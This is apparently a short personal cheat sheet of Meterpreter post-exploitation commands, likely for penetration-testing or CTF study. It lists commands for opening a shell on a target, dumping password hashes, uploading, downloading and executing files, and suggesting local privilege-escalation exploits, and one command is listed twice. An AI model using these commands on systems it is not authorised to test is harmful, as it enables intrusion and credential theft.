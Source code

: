 -----------------------------------------------
# Meterpreter
Tags:  #Tools #Cheatsheet #Hacking 
Creation date: 2021-10-13

-----------------------------------------------

```shell``` - Gain interactive shell on target box

```hashdump``` - Dump password hashes of users

```upload <src file> <dst file>``` - Upload file to target

```download <src file> <dst file>``` - Download file from target

`getuid` - whoami

```sysinfo``` - Get info on target box

```execute -f <file>``` - Execute file on target box

`run post/multi/recon/local_exploit_suggester` - find local exploits on machine

`ps` - List running processes

`run post/multi/recon/local_exploit_suggester` - suggest local exploits for the machine